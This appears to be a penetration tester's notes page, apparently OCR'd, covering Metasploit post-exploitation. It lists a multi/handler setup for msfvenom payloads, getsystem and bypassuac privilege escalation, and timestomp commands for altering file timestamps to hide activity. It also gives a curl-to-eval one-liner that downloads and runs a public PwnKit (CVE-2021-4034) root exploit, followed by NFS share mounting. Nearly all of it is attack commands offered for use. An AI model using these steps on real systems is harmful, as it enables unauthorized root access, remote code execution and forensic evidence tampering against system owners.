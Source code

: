 `run vnc` - To get VNC session in meterpreter session (Requires Root Privileges)

>[!check] Multihandler
>- use exploit/mutli/handler
>- set payload to what you have defined in msfvenom payload
>- Transfer the payload and run it
>- after getting the shell run the following commands:-
>- getuid
>- sysinfo
>- getsystem - check for privilege escaltion / bypass UAC
>- background sessions using `bg` command or `background`
https://null-byte.wonderhowto.com/how-to/bypass-uac-escalate-privileges-windows-using-metasploit-0196076/
>- if getsystem didn't worked use`bypassuac` or `bypassuac_fodhelper` exploit module
>- set payload to what you have defined in msfvenom payload
>- Now u will have the root user privileges
[Ultimate List of Meterpreter Commands](simplenote://note/39167abb-f1fe-4be1-a80b-fff229eabb8c)

`To get all information regarding privilege escalation use WinPEAS/LinPEAS`


###### Post Exploitation Tools

>[!check] MACE
>- M - Modified
>- A - Accessed
>- C - Created
>- E - Entry Modified
`timestomp [filename] -v`  :- To view MACE Information
`timestomp [filename] -m/-a/-c/-e  'date format | time format'`

To search any file in meterpreter session search -f [filename]

To retreive Hidden Directories
- Enter shell mode from meterpreter session

`dir /a:h`

![img](https://i.postimg.cc/T2mRsmMf/screenshot-97.jpg)

###### PKEXEC vulnerability to get root shell

git  clone https://github.com/berdav/CVE-2021-4034.git  
OR 
oneliner command `eval "$(curl -s https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.sh)"`

Just execute make, `./cve-2021-4034` and enjoy your root shell

Dry Run
- To not execute a shell but just test if the system is vulnerable compile the dry-run target.
- If the program exit printing "root" it means that your system is vulnerable to the exploit.
- If your system is not vulnerable it prints an error and exit.

###### NFS Exploitation
`showmount -e [ip]`  
if found any share 
`mkdir /tmp/nfs`
`sudo mount -t nfs [ip]:/share /tmp/nfs`
